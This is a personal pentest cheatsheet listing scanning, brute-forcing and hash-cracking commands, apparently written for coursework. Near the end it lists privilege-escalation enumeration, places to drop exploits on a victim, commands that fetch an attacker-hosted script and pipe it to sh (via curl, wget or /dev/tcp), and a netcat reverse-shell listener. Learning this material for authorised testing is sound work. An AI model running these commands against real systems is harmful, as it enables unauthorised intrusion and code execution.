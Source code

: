 ### My current Pentest Cheatsheet   
Updated: *11.05.2023*   
[See sources and credits](report.md#y-the-super-ultimate-hakk3r-che33tsheet-001-tee-tiivistelm%C3%A4-omista-ja-kavereiden-parhaista-tunketumistekniikoista-ole-t%C3%A4sm%C3%A4llinen-liit%C3%A4-komennot-mukaan-t%C3%A4m%C3%A4n-kohdan-vastaus-lienee-pidempi-kuin-aiempien-x-teht%C3%A4vien-viittaa-l%C3%A4hteisiin-t%C3%A4ss%C3%A4-alakohdassa-ei-tarvitse-ajaa-komentoja-tietokoneella)

**Nmap:**
```bash
Example: nmap -A -p- <address> -oA filename 
Everything: -A
Enumerate Versions: -sV
Default Scripts: -sC
Syn Scan: -sS
All Ports: -p-
Output (All Formats): -oA filename
```

**Gobuster**
```bash
# Directories
gobuster dir -w /usr/share/wordlists/dirb/small.txt -u http://address

# Vhosts
gobuster vhost -w /usr/share/wordlists/dirb/small.txt -u address --append-domain
```

**Ffuf**
```bash
# Sites
ffuf -w /path/to/wordlist -u https://target/FUZZ

# Vhosts
ffuf -c -w /path/to/wordlist -u http://ffuf.io.fi -H "Host: FUZZ.ffuf.io.fi"

# Filter out response length
-fs <bytesize>
```

---
**Hydra:**
- SSH   
```bash
Example: hydra -l user -p pass 127.0.0.1 ssh
User: -l
User File: -L
Password: -p
Password File: -P
Port: -s
Tasks: -T
```

**Searchsploit:**
```bash
Example: searchsploit SOMETHING
Read Exploit: -x
Copy to current location: -m
```

**SQLi Cheatsheet:** 
https://portswigger.net/web-security/sql-injection/cheat-sheet

---
**Hashcat:**
```bash
Hash Mode: -m <id>
   0 | MD5
1400 | SHA2-256 
1700 | SHA2-512

Attack Mode: -a <id>
0 for dictionary
---
3 for mask
Masks:
  ?l | low caps
  ?u | high caps
  ?d | numbers
  ?h | numbers + low caps
  ?H | numbers + high caps
  ?s | special characters
  
Workload 1-4: -w <id>
Disable Potfile: --potfile-disable
Show Cracked Hashes: --show
Out File: -o
Usernames in Hashfile: --username
```

**John:**
```bash
john --wordlist=/path/file hash.file
```

**Wordlist Gen:**

**Cewl**
```bash
cewl -w wordlist <url>
```

**Crunch**
```bash
TBA
```

**From a file:**
**Python Script**
```bash
#!/bin/python3
import sys
import re

if len(sys.argv) != 2:
    print("Usage: wordlist_gen <filename>")
    sys.exit(1)

filename = sys.argv[1]

with open(filename, "r") as file:
    for line in file:
        # Replace non-alphanumeric characters with space
        line = re.sub(r"[^\w\s]", " ", line)
        # Split line into words and iterate over them
        for word in line.split():
            print(word)
```

**Sed**
```bash
sed 's/[^a-zA-Z0-9 ]//g; s/ /\n/g; /^$/d' <filename> | tr -s '\n'
```

---
**PrivEsc stuffz:**
```bash
sudo -l
Find Group Owned Files: find / -group <group-name>
Find SUID: find / -perm -4000
Find GUID: find / -perm -2000
Listening Ports: netstat -tulnp
Listening Ports: ss -ltnp
Find World Readable: find / -perm -o+w
```
**Find**
- Disable "permission denied and stuffs" printing:   
```bash
find / -name <something> 2>/dev/null
```

**Good place to put exploits, scripts and stuffs on victim:**   
```bash
 /dev/shm/
 /tmp/
```

**Send files from Attacker to Target:**     
```bash
sudo python -m http.server PORT #Host
wget ATTACKERIP:PORT/filename #Victim
```
OR:   
**Run script over the network:**   
```bash
# Local network
sudo python3 -m http.server 80 #Host
curl <ip_address>/script.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < script.sh #Host
cat < /dev/tcp/<ip_address>/<port> | sh #Victim
```
Source: [Linpeass](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

**Reverse shells:**   
Host, netcat listener:    
```bash
nc -lvnp PORTNUMBER  
```
Shells:   
pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet   
https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/

---
**Improved shell:**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

CTRL + z

stty raw -echo; fg
export TERM=xterm
```
